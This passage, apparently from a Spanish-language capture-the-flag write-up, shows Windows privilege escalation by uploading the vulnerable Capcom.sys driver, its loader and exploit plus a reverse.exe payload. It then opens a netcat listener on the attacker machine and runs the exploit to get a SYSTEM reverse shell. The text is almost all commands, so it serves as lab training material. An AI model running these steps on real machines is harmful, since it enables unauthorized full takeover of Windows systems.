 ````bash
cd C:\Windows\Temp
upload Capcom.sys
upload ExploitCapcom.exe
upload LoadDriver.exe
cd C:\Windows\System32\spool\drivers\color
upload reverse.exe
```

#### Lanzamos el exploit {-}

En la maquina de atacante nos ponemos en escucha en el puerto 443

```bash
rlwrap nc -nlvp 443
```

En la maquina victima, lanzamos el exploit

```bash
cd C:\Windows\Temp
C:\Windows\Temp\LoadDriver.exe System\CurrentControlSet\savishell C:\Windows\Temp\Capcom.sys
C:\Windows\Temp\ExploitCapcom.exe
```

La reverse shell nos a funccionado y con `whoami` vemos que ya somos nt authority\system y podemos ver la flag.